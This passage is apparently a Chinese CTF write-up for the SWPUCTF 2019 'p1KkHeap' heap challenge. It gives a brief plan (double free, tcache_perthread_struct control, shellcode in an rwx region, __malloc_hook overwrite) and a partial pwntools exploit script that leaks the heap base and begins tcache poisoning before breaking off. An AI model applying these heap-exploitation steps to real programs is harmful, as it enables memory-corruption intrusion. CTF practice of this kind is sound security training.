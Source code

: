 之前double free的时候有一次任意地址分配的机会，我们分配到tcache_perthread_struct，从而可以通过Edit控制得到tcache bins，题目给了块rwxp的区域，我们分配到那里写shecllode再将mallo_hook覆写为mmap_addr，最后trigger到orw读取flag。

```py
#coding=utf-8
from pwn import *
context.update(arch='amd64',os='linux',log_level='DEBUG')
context.terminal = ['tmux','split','-h']
debug = 0
elf = ELF('./SWPUCTF_2019_p1KkHeap')
libc_offset = 0x3c4b20
gadgets = [0x45216,0x4526a,0xf02a4,0xf1147]
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
if debug:

    p = process('./SWPUCTF_2019_p1KkHeap')

else:
    p = remote('node3.buuoj.cn',29346)

def Add(size):
    p.recvuntil('Choice: ')
    p.sendline('1')
    p.recvuntil("size: ")
    p.sendline(str(size))

def Show(index):
    p.recvuntil('Choice: ')
    p.sendline('2')
    p.recvuntil("id: ")
    p.sendline(str(index))

def Delete(index):
    p.recvuntil('Choice: ')
    p.sendline('4')
    p.recvuntil("id: ")
    p.sendline(str(index))

def Edit(index,content):
    p.recvuntil('Choice: ')
    p.sendline('3')
    p.recvuntil("id: ")
    p.sendline(str(index))
    p.recvuntil("content: ")
    p.send(content)

def exp():
    #leak heap
    map_addr = 0x66660000
    Add(0x100)#0
    Add(0x68)#1
    Delete(0)
    Delete(0)
    Show(0)
    p.recvuntil("content: ")
    heap_base = u64(p.recvline().strip("\n").ljust(8,'\x00')) - 0x260
    log.success("libc base => " + hex(heap_base))
    Add(0x100)#2
    Edit(2,p64(heap_base+0x10))
    Add(0x100)#3

    Add(0x100)#4 target
    Delete(0)
    Show(0)
```